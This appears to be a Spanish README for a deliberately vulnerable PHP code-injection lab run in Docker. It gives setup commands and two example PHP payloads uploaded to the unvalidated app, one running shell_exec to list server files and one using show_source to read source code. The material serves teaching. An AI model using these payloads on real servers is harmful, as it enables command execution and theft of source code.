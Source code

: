 # Code Injection

Descargar y Montar el servidor desde Docker usando un volumen con el Codigo Fuente de Github para editarlo:

```bash
git clone https://github.com/IngenieroRicardo/CodeInjection
cd CodeInjection
sudo chmod -R a+rwx *
sudo docker-compose up
firefox localhost:8181
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente
